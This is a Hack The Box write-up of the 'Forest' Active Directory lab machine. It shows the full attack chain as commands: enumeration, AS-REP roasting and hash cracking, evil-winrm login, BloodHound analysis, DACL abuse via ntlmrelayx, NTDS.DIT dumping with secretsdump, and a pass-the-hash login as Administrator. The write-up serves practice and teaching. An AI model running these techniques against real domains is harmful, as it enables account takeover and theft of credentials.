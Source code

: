 ```yaml
---
permalink: /posts/HTB/Forest
title: "HTB Forest Write-up"
header-img: "/assets/images/HTB/Forest/InfoCard.jpg"
header:
  teaser: "/assets/images/HTB/Forest/InfoCard.jpg"
description: "Hackthebox's Forest is an easy-rated Windows box that acts as the domain controller for the htb.local domain."
categories: 
  - CTF
date: 2020-03-21 17:28
tags: HTB Windows AD DACL BloodHound
---
```


# Hackthebox - Forest - 10.10.10.161
## Summary
Today [Hackthebox](https://www.hackthebox.eu) retired Forest, an easy-rated Windows box that acts as the domain controller for the htb.local domain. This was a great learning experience since Forest was my first Windows Domain Controller, and I got a chance to learn how to use Impacket's AD-oriented scripts, as well as getting familiar with BloodHound and SharpHound.
Here's my write-up.
>*Note that the screenshots are taken today (2020-03-21) because I didn't do a proper write-up during my first run on Postman.*

![InfoCard](/assets/images/HTB/Forest/InfoCard.jpg)

## Enumeration

For an initial scan I used the following nmap command 
```
nmap -A -sV -o nmapinitial -T4 10.10.10.161
```
![nmapinitial01](/assets/images/HTB/Forest/nmapinitial01.jpg)
![nmapinitial02](/assets/images/HTB/Forest/nmapinitial02.jpg)

The nmap scan reveals that the machine is a domain controller for the htb.local domain judging by the 2 LDAP services ports (389 and 3268).
Even if the smb port is opened, attempting to list shares using smbclient does not list anything without proper authentication. 

While nmap was running, I also kicked off enum4linux to get a better idea of users, groups, service accounts, and accessible network shares.
```
enum4linux -o -U -G -S -P 10.10.10.161 > enum4linux.txt
```
Once finished, enum4linux returns some useful information about the target.
For starters, it looks like there's no propper password complexity policy put in place, meaning that, if I'm able to obtain a hash, it should be failry easy to crack since nothing is forcing users to set complex passwords.

![enum4linux_passpolicy](/assets/images/HTB/Forest/enum4linux_passpolicy.jpg)

The local user accounts where retunred, including a service account - svc-alfresco

![enum4linux_users](/assets/images/HTB/Forest/enum4linux_users.jpg)

This also shows the fact that the target is running Microsoft Exchange Server, which might be a path for privilege escalation.

## Initial Foothold and User Flag

After reading a bit through the [Forest HTB Forum](https://forum.hackthebox.eu/discussion/2319/forest#latest) thread, I saw a few hints pointing towards Impacket's GetNPUsers.py script (more examples on kerberos attacks can be found [here](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)).
I've tried running the script against all the users i've found using enum4linux, and the only one that did not require Kerberos pre-authentication was svc-alfresco os I was able to get its TGT with the following command 
```
python ~/Scripts/Impacket/impacket-0.9.20/examples/GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161 -format john
```
![TGThash](/assets/images/HTB/Forest/TGThash.jpg)

Which I then proceede to crack using john.
![john](/assets/images/HTB/Forest/john.jpg)

It looks like the password for svc-alfresco is __s3rvice__ and I am able to use it with evil-winrm 
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice' -s './ps1_scripts/' -e './exe_files/'
```
and get the user flag.

![userflag](/assets/images/HTB/Forest/userflag.jpg)

## Privilege escalation

Someone on the forum mentioned that [BloodHound's](https://github.com/BloodHoundAD/BloodHound) SharpHound.exe ingestor (I couldn't get SharpHound.ps1 to run through evil-winrm) can be used to get a better idea of what the shortest route to DA would be.
So i booted my Windows VM, started CMD as svc-alfresco and executed SharpHound.exe.
![SharpHound_exe](/assets/images/HTB/Forest/SharpHound_exe.jpg)

I then move the resulting .zip file to my Kali VM, fire up neo4j console and bloodhound, and import the zip file into BloodHound for querying.
The "Find Shortest Paths to Domain Admins" query shows that I can use the fact that svc-alfresco is a member of the Account Operators group to add either the service account itself or a newly created account to the Exchange Windows Permissions group, whose WriteDacl access on the Domain object in Active Directory can be used to escalate to DA, as outlined [here](https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/).

![BloodHound](/assets/images/HTB/Forest/BloodHound.jpg)

I picked the route of creating a separate user account that I can add to the Exchange Windows Permissions group.
I connect with evil-winrm as svc-alfresco to create the following user account and add it to all the required groups:
```
New-ADUser -Name "TestUser" -Type User -AccountPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force) -Enabled $True
Add-AdGroupMember -Identity  "Remote Desktop Users" -Members TestUser
Add-AdGroupMember -Identity  "Remote Management Users" -Members TestUser
Add-AdGroupMember -Identity  "Exchange Windows Permissions" -Members TestUser
```
After that, I can use Impacket's ntlmrelayx.py to escalate TestUser's privileges
```python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user TestUser```
![TestUser_privesc](/assets/images/HTB/Forest/TestUser_privesc.jpg)

Now I can use Impacket's secretsdump.py with TestUser's credentials to dump all the password hasses contained in the NTDS.DIT file on 10.10.10.161.
![hashes](/assets/images/HTB/Forest/hashes.jpg)

With the Admin hash obtained through secretsdump.py, I can use wmiexec.py to connect as Administrator 
```
python wmiexec.py -hashes aad..4ee:326..ea6 Administrator@10.10.10.161
```

![adminroot](/assets/images/HTB/Forest/adminroot.jpg)

And remove the TestUser account.

![delete_testuser](/assets/images/HTB/Forest/delete_testuser.jpg)

